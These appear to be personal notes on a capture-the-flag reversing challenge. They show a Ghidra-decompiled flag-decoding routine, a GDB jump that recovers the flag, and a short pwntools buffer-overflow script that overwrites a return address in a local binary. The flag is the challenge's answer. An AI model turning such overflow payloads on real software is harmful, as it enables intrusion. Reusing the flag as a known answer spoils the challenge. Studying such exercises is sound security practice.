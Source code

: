 ![[Pasted image 20211231210523.png]]
I probably want to use a tool to continuously supply larger and larger strings

GDB isn't helping this time... so lets kick it up a notch with ghidra
#reverseengineering 

![[Pasted image 20211231212622.png]]
![[Pasted image 20211231212634.png]]
![[Pasted image 20211231212600.png]]
and you can see how 
![[Pasted image 20211231212700.png]]

meaning... I might just get away with copy pasting the function...

![[Pasted image 20211231213937.png]]
apparently `byte` is `unsigned char` (replace all instances)

![[Pasted image 20211231214132.png]]
huh (C++)

that's weird

![[Pasted image 20211231214341.png]]
running it in c
didn't work

```cpp
#include <iostream>

using namespace std;

void printFlag(void)

{
  unsigned char bVar1;
  unsigned char bVar2;
  char local_2b[26];
  char local_11;
  int local_10;

  local_2b[0] = ']';
  local_2b[1] = 0x97;
  local_2b[2] = 0xee;
  local_2b[3] = 0xf5;
  local_2b[4] = 0x20;
  local_2b[5] = 0xfa;
  local_2b[6] = 0x81;
  local_2b[7] = 0x31;
  local_2b[8] = 0xf8;
  local_2b[9] = 0x61;
  local_2b[10] = 0x4c;
  local_2b[11] = 0x60;
  local_2b[12] = 0x4c;
  local_2b[13] = 0xd2;
  local_2b[14] = 0xfe;
  local_2b[15] = 0x93;
  local_2b[16] = 0xfc;
  local_2b[17] = 0x16;
  local_2b[18] = 0x48;
  local_2b[19] = 0x92;
  local_2b[20] = 0x9a;
  local_2b[21] = 0xdb;
  local_2b[22] = 199;
  local_2b[23] = 0xf3;
  local_2b[24] = 0x25;
  local_2b[25] = 0x32;
  local_10 = 0;
  while (local_10 < 0x1a) {
    bVar2 = (unsigned char)local_10;
    bVar1 = bVar2 - (local_2b[local_10] + 0xaaU ^ 0xfc);
    bVar1 = -bVar2 - (-bVar2 - (bVar1 * '\b' | bVar1 >> 5)) ^ bVar2;
    bVar1 =
        ~(((0x2e - ~(~-(~((~((~-~(0x15 -
                                  (~-((~(bVar1 * -0x40 | -bVar1 >> 2) ^ bVar2) +
                                      0x5b) -
                                   0x16)) ^
                              0xf3) +
                             0xbd) ^
                           bVar2) -
                          bVar2) +
                        bVar2) +
                     bVar2) ^
            0xac) +
               0x31 ^
           0x12) +
              0x8e ^
          bVar2);
    local_11 = -(-0x50 - ((bVar1 << 3 | bVar1 >> 5) + 0x60));
    local_2b[local_10] = local_11;
    local_10 = local_10 + 1;
  }
  cout << local_2b;
  return;
}

int main() { printFlag(); }
```

ran it locally on my own computer...
(looking back, this is totally not how to solve this stuff lol)


![[Pasted image 20211231215557.png]]
darn

After some research, I found that I can jump addresses with GDB
![[Pasted image 20211231221205.png]]

YEHH

thanks GDB
`Flag: 4UPzOlkhlUBvY8bHikd`


I was supposed to buffer overflow like this: (code was totally not copy pasted)

```python
import pwn

io = pwn.process("./program-x86")
io.send(b"A" * 156 + pwn.p32(0x80484b1))

io.interactive()
```